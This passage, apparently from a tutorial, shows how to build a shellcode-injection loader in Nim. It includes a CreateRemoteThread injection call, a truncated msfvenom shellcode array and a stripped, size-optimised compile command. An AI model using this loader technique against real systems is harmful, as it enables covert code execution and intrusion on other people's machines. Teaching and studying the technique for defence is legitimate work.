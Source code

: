 ```nim
CreateRemoteThread(pHandle,NULL,0,cast[LPTHREAD_START_ROUTINE](Point),NULL,0,NULL)
```

Once we have the routine to inject the shellcode, let's create shellcode with msfvenom

<p align="center"><img src="/images/nim/msg_msf.jpeg"></p>
Let's use the shellcode in our nim code.

```nim
var shellcode: array[311, byte] = [
    byte 0x48,0x31,0xc9,0x48,0x81,0xe9,0xde,0xff,0xff,<snip>]
```

Once everything in set, let's compile our program with some extra flags to try to reduce the size.
```bash
nim c -d:mingw --cpu:amd64 -d:danger -d:strip --opt:size pi.nim
```
Once we have our executable, let's check whether it's working or not.
